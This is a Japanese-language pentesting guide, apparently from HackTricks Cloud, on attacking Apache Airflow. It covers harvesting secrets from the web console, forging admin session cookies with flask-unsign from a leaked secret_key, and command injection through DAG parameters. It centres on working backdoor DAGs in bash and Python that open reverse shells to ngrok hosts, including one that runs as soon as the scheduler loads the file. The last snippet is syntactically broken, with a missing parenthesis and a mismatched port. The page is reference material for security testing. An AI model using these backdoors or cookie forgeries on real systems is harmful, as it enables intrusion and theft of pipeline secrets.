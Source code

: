 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### 基本情報

[**Apache Airflow**](https://airflow.apache.org) は、**データパイプラインやワークフローのオーケストレーションとスケジューリングのためのプラットフォーム**として機能します。データパイプラインの文脈における「オーケストレーション」という用語は、さまざまなソースから発生する複雑なデータワークフローを整理、調整、管理するプロセスを意味します。これらのオーケストレーションされたデータパイプラインの主な目的は、処理された消費可能なデータセットを提供することです。これらのデータセットは、ビジネスインテリジェンスツール、データサイエンス、機械学習モデルなど、さまざまなアプリケーションで広く利用されており、ビッグデータアプリケーションの機能にとって基盤となっています。

基本的に、Apache Airflowは、**何か（イベント、cron）が発生したときにコードの実行をスケジュールすることを可能にします**。

### ローカルラボ

#### Docker-Compose

**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**からの**docker-compose設定ファイル**を使用して、完全なApache Airflow Docker環境を起動できます。（MacOSを使用している場合は、Docker VMに少なくとも6GBのRAMを割り当てることを確認してください）。

#### Minikube

**Apache Airflowを実行する簡単な方法**は、**Minikubeで実行することです**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflowの設定

Airflowはその設定に**機密情報**を保存する可能性があり、または脆弱な設定が存在することがあります：

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Airflowを攻撃する前に、**権限の仕組み**を理解する必要があります：

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### 攻撃

#### ウェブコンソールの列挙

**ウェブコンソールにアクセス**できる場合、以下の情報の一部またはすべてにアクセスできる可能性があります：

* **変数**（カスタムの機密情報がここに保存される可能性があります）
* **接続**（カスタムの機密情報がここに保存される可能性があります）
* `http://<airflow>/connection/list/`でアクセス
* [**設定**](./#airflow-configuration)（**`secret_key`**やパスワードなどの機密情報がここに保存される可能性があります）
* **ユーザーと役割のリスト**
* **各DAGのコード**（興味深い情報が含まれている可能性があります）

#### 変数の値を取得

変数はAirflowに保存され、**DAG**がその値に**アクセス**できるようになります。他のプラットフォームの秘密に似ています。**十分な権限**があれば、`http://<airflow>/variable/list/`のGUIでアクセスできます。\
AirflowはデフォルトでGUIに変数の値を表示しますが、[**これ**](https://marclamberti.com/blog/variables-with-apache-airflow/)によると、**値**が**アスタリスク**として表示される**変数のリスト**を設定することが可能です。

![](<../../.gitbook/assets/image (164).png>)

しかし、これらの**値**は**CLI**（DBアクセスが必要）、**任意のDAG**の実行、**API**を介して変数エンドポイントにアクセスすること（APIを有効にする必要があります）、さらには**GUI自体**からも**取得**できます！\
GUIからこれらの値にアクセスするには、**アクセスしたい変数を選択**し、**アクション -> エクスポート**をクリックします。\
別の方法は、**検索フィルタリング**を使用して**隠された値**に対して**ブルートフォース**を行い、それを取得することです：

![](<../../.gitbook/assets/image (152).png>)

#### 権限昇格

**`expose_config`**設定が**True**に設定されている場合、**ユーザー役割**以上の権限を持つ者は**ウェブで設定を読む**ことができます。この設定には**`secret_key`**が含まれており、これにより有効なユーザーは**他のユーザーアカウントを偽装するための独自の署名付きクッキーを作成**できます。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG バックドア (Airflow ワーカーにおける RCE)

もし **DAGs が保存されている場所に書き込みアクセス** がある場合、**逆シェルを送信する DAG を作成する** だけです。\
この逆シェルは **airflow ワーカーコンテナ内** で実行されることに注意してください：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAGバックドア（AirflowスケジューラにおけるRCE）

コードの**ルートで実行されるように設定**した場合、執筆時点では、DAGのフォルダに配置してから数秒後に**スケジューラによって実行されます**。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAGの作成

もしあなたが**DAGクラスター内のマシンを侵害することに成功すれば**、`dags/`フォルダーに新しい**DAGスクリプト**を作成でき、それらは**DAGクラスター内の他のマシンに複製されます**。

#### DAGコードインジェクション

GUIからDAGを実行すると、**引数**を渡すことができます。\
したがって、DAGが適切にコーディングされていない場合、**コマンドインジェクションに対して脆弱である可能性があります。**\
これがこのCVEで起こったことです: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAG内のコマンドインジェクションを探し始めるために知っておくべきこと**は、**パラメータ**が**コード`dag_run.conf.get("param_name")`**で**アクセスされる**ということです。

さらに、同じ脆弱性が**変数**にも発生する可能性があります（十分な権限があれば、GUIで**変数の値を制御できる**ことに注意してください）。変数は**次のようにアクセスされます**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
もしそれらが例えばbashコマンドの中で使用されると、コマンドインジェクションを実行することができます。

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}

